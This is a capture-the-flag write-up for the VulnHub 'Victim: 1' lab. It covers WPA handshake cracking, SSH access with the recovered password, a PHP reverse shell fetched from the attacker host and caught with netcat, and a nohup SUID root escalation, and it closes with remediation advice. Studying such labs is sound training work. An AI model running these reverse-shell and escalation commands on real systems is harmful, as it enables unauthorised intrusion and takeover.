





# Victim: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.104 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Root Flag** | /root/flag.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/victim-1,555/) |

## Attack Summary

`nmap` → WordPress on port 8080 hosts `WPA-01.cap` → `aircrack-ng` cracks WPA key → SSH as `dlink` → writable `/var/www/bolt/public/files` → PHP reverse shell → root via nohup SUID

## Methodology

1. Network discovery
2. Port scan — multiple HTTP services
3. Download WPA capture from WordPress
4. Crack WPA handshake with rockyou
5. SSH access with recovered WiFi credentials
6. Find world-writable web directory
7. Upload and trigger PHP reverse shell
8. Root via writable directory / nohup SUID

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -p- -A 192.168.1.104
```

Open ports: **22 (SSH)**, **80 (HTTP)**, **8080 (HTTP — WordPress)**, **9000 (HTTP)**



---

## Step 2: WordPress Enumeration

Browse to `http://192.168.1.104:8080`. The WordPress installation hosts a downloadable file: `WPA-01.cap`.

```bash
wget http://192.168.1.104:8080/wp-content/uploads/WPA-01.cap
```

Open the capture in Wireshark — the SSID is **"dlink"**, suggesting it may also be a username.



---

## Step 3: Crack WPA Handshake

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt WPA-01.cap
# KEY FOUND: p4ssword
```



---

## Step 4: SSH Login

```bash
ssh dlink@192.168.1.104
# password: p4ssword
id
ls /
```

---

## Step 5: Find World-Writable Web Directory

```bash
find / -writable -type d 2>/dev/null
# /var/www/bolt/public/files is world-writable
cd /var/www/bolt/public/files
ls -la
```

The directory is owned by root but writable by everyone — a critical misconfiguration.

---

## Step 6: PHP Reverse Shell Upload

On the attacker machine, host the shell:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
# edit: $ip='192.168.1.112'; $port=4444;
python3 -m http.server 8000
```

On the target:

```bash
wget http://192.168.1.112:8000/shell.php
```

Start listener and trigger the shell:

```bash
# attacker
nc -lvp 4444

# browser: http://192.168.1.104:8080/files/shell.php
```



---

## Step 7: Root

The shell arrives as `root` because the web server runs as root (misconfigured), or via nohup SUID:

```bash
id
# uid=0(root)
cd /root
cat flag.txt
```

Alternative via nohup SUID (if applicable):

```bash
nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)"
id
```



---

## Lessons Learned

1. **WPA capture files** stored on web servers expose WiFi credentials to anyone
2. **WiFi SSID = username** is a common CTF pattern — always test the SSID as credentials
3. **World-writable web directories** allow arbitrary file upload and execution
4. **Web server running as root** is a critical misconfiguration — any RCE gives immediate root
5. **WPA handshake cracking** with rockyou is fast and effective against weak passphrases

## Remediation

| Vulnerability | Fix |
|---|---|
| WPA capture on public web server | Never store capture files on web servers |
| Weak WiFi password | Use WPA3 or strong random passphrase (20+ chars) |
| World-writable web directory | Set `755` on web directories; `644` on files |
| Web server running as root | Run web servers as `www-data` with minimal permissions |
| PHP execution in upload dirs | Disable PHP handler in upload directories |
